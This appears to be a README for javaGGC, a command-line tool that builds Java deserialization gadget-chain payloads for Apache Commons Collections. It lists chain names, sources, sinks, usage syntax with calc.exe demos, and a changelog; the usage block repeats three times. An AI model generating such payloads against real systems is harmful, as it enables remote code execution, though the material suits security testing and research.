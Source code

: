 # javaGGC
***javaGGC for generate commons.collections gadget chain***

## Usage
### javaGGC 0
Use available ggc now!

CCHx is commons collections 4.x ggc relative to CCx.
```
Usage: javaGGC version=(3/4) [source=SOURCE_INDEX] [sink=SINK_INDEX] [arg=(command/code, 1 means default, startswith file:// means read code from file)] [test_on_local=(anyValue means yes)] 
       |
       javaGGC 0 [ggc=CC_INDEX/CC_NAME] [arg=(command/code, 1 means default, startswith file:// means read code from file)] [test_on_local=(anyValue means yes)]

Usage: javaGGC version=(3/4) [source=SOURCE_INDEX] [sink=SINK_INDEX] [arg=(command/code, 1 means default, startswith file:// means read code from file)] [test_on_local=(anyValue means yes)] 
       |
       javaGGC 0 [ggc=CC_INDEX/CC_NAME] [arg=(command/code, 1 means default, startswith file:// means read code from file)] [test_on_local=(anyValue means yes)]

Available GGC:
  [0] CC1 (command)
  [1] CC10 (command)
  [2] CC11 (code)
  [3] CC12 (code)
  [4] CC2 (code)
  [5] CC3 (code)
  [6] CC4 (code)
  [7] CC5 (command)
  [8] CC6 (command)
  [9] CC7 (command)
  [10] CC8 (code)
  [11] CCH1 (command)
  [12] CCH10 (command)
  [13] CCH11 (code)
  [14] CCH12 (code)
  [15] CCH3 (code)
  [16] CCH5 (command)
  [17] CCH6 (command)
  [18] CCH7 (command)
  [19] CCH8 (code)
  [20] CCK1 (code)
  [21] CCK2 (code)
  [22] CCK3 (command)
  [23] CCK4 (command)
```
usage: `javaGGC 0 CC1 calc.exe`
### javaGGC 3/4
Assemble these gadgets into a new ggc chain!
#### javaGGC 3
```
Usage: javaGGC version=(3/4) [source=SOURCE_INDEX] [sink=SINK_INDEX] [arg=(command/code, 1 means default, startswith file:// means read code from file)] [test_on_local=(anyValue means yes)] 
       |
       javaGGC 0 [ggc=CC_INDEX/CC_NAME] [arg=(command/code, 1 means default, startswith file:// means read code from file)] [test_on_local=(anyValue means yes)]

Available Source:
  [0] AnnotationInvocationHandlerSource (jdk<8u71)
  [1] BadAttributeValueExpExceptionSource
  [2] HashMapSource
  [3] HashSetSource
  [4] HashtableSource
Available Sink:
  [0] RuntimeExecSink (command)
  [1] ScriptEngineManagerSink (code)
  [2] TemplatesImplNewTransformerSink (code)
  [3] TemplatesImplTrAXFilterSink (code)
```
usage: `javaGGC 3 0 0 calc.exe`

#### javaGGC 4
```
Usage: javaGGC version=(3/4) [source=SOURCE_INDEX] [sink=SINK_INDEX] [arg=(command/code, 1 means default, startswith file:// means read code from file)] [test_on_local=(anyValue means yes)] 
       |
       javaGGC 0 [ggc=CC_INDEX/CC_NAME] [arg=(command/code, 1 means default, startswith file:// means read code from file)] [test_on_local=(anyValue means yes)]

Available Source:
  [0] AnnotationInvocationHandlerSource (jdk<8u71)
  [1] BadAttributeValueExpExceptionSource
  [2] HashMapSource
  [3] HashSetSource
  [4] HashtableSource
  [5] PriorityQueueSource
  [6] TreeBagSource
Available Sink:
  [0] RuntimeExecSink (command)
  [1] ScriptEngineManagerSink (code)
  [2] TemplatesImplNewTransformerSink (code)
  [3] TemplatesImplTrAXFilterSink (code)
```
usage: `javaGGC 4 0 0 calc.exe`

## Update
### V0.0.5
- add sinkResultID for ScriptEngineManagerSink
- fix GGH1, GGH3
- fix a problem: **The payload generated by the repair cannot be used**

### V0.0.4
- add AnnotationInvocationHandlerSource for commons collections 4
- add CCH1, CCH3
### V0.0.3
- add TreeBagSource for commons collections 4

## Reference
[CCK Reference](https://github.com/shadowsock5/ysoserial/commit/cb0a3fa7aa8de4563fd4e1c57d45e6cd1ffea971)